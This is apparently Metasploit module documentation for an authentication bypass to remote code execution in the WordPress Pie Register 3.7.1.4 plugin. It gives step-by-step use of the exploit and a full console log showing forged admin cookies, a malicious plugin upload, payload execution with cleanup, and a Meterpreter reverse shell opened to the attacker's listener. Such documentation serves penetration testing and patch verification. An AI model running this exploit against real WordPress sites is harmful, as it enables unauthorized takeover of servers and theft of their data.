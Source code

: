 ## Vulnerable Application

Download [pie-register.3.7.1.4.zip](https://downloads.wordpress.org/plugin/pie-register.3.7.1.4.zip).
Install it, and activiate it.  No additional configuration is required.

## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use exploit/unix/webapp/wp_pie_register_bypass_rce`
1. Do: `set rhosts [IP]`
1. Do: `run`
1. You should get a shell.

## Options

### USERID

The `USERID` of a valid user that should have a cookie generated for.  Should be an admin user.  Defaults to `1`.

## Scenarios

### Wordpress 5.4.4 with Pie Register 3.7.1.4

```
[*] Processing pie_register.rb for ERB directives.
resource (pie_register.rb)> use wp_pie_register_bypass_rce
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp

Matching Modules
================

   #  Name                                            Disclosure Date  Rank       Check  Description
   -  ----                                            ---------------  ----       -----  -----------
   0  exploit/unix/webapp/wp_pie_register_bypass_rce  2021-10-08       excellent  Yes    WordPress Plugin Pie Register Auth Bypass to RCE


Interact with a module by name or index. For example info 0, use 0 or use exploit/unix/webapp/wp_pie_register_bypass_rce

[*] Using exploit/unix/webapp/wp_pie_register_bypass_rce
resource (pie_register.rb)> set rhosts 1.1.1.1
rhosts => 1.1.1.1
resource (pie_register.rb)> set lhost 2.2.2.2
lhost => 2.2.2.2
resource (pie_register.rb)> set verbose true
verbose => true
resource (pie_register.rb)> run
[*] Started reverse TCP handler on 2.2.2.2:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking /wp-content/plugins/pie-register/readme.txt
[*] Found version 3.7.1.4 in the plugin
[+] The target appears to be vulnerable.
[*] Bypassing Authentiation
[*] Found cookie: wordpress_d2959e58288b6133e71de74309fcabfb=admin%7C1634151373%7C5hPhXSogmfTkj7p0WsuFUNe8moVYT6z8ZTcFLffuCVE%7Cac034a6841edfa4d49e5ab75cb37b69f52a8a92bcf9ad335bd4ad77d287b5349
[*] Found cookie: wordpress_d2959e58288b6133e71de74309fcabfb=admin%7C1634151373%7C5hPhXSogmfTkj7p0WsuFUNe8moVYT6z8ZTcFLffuCVE%7Cac034a6841edfa4d49e5ab75cb37b69f52a8a92bcf9ad335bd4ad77d287b5349
[*] Found cookie: wordpress_logged_in_d2959e58288b6133e71de74309fcabfb=admin%7C1634151373%7C5hPhXSogmfTkj7p0WsuFUNe8moVYT6z8ZTcFLffuCVE%7C3f79f2326314d81da1e4fd4dd8b29a30a1666c8b6378ca719377cf0fd4e6dfff
[*] Preparing payload...
[*] Uploading payload...
[*] Acquired a plugin upload nonce: 04f6142d66
[*] Uploaded plugin iQujVpTJNo
[*] Executing the payload at /wp-content/plugins/iQujVpTJNo/pZtgbKCrHr.php...
[*] Sending stage (39282 bytes) to 1.1.1.1
[+] Deleted pZtgbKCrHr.php
[+] Deleted iQujVpTJNo.php
[+] Deleted ../iQujVpTJNo
[*] Meterpreter session 1 opened (2.2.2.2:4444 -> 1.1.1.1:51748 ) at 2021-10-11 15:16:27 -0400

meterpreter > getuid
Server username: www-data
meterpreter > sysinfo
Computer    : wordpress2004
OS          : Linux wordpress2004 5.4.0-52-generic #57-Ubuntu SMP Thu Oct 15 10:57:00 UTC 2020 x86_64
Meterpreter : php/linux
```
